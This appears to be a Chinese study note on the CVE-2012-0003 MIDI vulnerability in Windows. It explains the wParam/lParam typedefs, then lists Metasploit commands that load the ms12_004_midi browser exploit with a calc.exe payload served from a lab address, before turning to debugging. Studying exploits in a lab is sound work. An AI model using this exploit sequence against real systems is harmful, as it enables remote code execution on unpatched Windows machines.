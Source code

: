 

**理解midiOutPlayNextPolyEvent  问题1**

在Windows的消息函数中，有两个非常熟悉的参数：wParam，lParam。

  这两个参数的字面意义对于现在的程序来说已经不重要了，因为它是16位系统的产物，为了保持程序的可移植性，就将它保存了下来。

  它的字面意义，w表示word，l表示long，对于32为系统来说，分别是无符号整数（unsigned int）和长整型（long），都是32位整数。所以，根据具体的消息解析参数即可，不用在乎其字面意义了。

  下面是Windows的定义

`/* Types use for passing & returning polymorphic values */`

`typedef` `UINT_PTR`            `WPARAM``;`

`typedef` `LONG_PTR`            `LPARAM``;`

`//下面是32位程序的宏定义`

`typedef` `_W64 unsigned ``int` `UINT_PTR``, *``PUINT_PTR``;`

`typedef` `_W64 ``long` `LONG_PTR``, *``PLONG_PTR``;`



**漏洞利用：**

自测的 时候 漏洞利用 不成功。。。

尴尬了。。

思路是 分析 利用 了解下 溢出点吧



msf利用命令如下：

```
 msfconsole

    search cve-2012-0003 

    use exploit/windows/browser/ms12_004_midi 

    set uripath test.html

    set payload windows/exec

    set cmd calc.exe

    server started

    http://192.168.118.129:8080/test.html 
```

参照了 [链接](https://www.anquanke.com/post/id/85089) 进行不成功情况下的 调试学习

首先明确了一点 

先做堆页异常启动
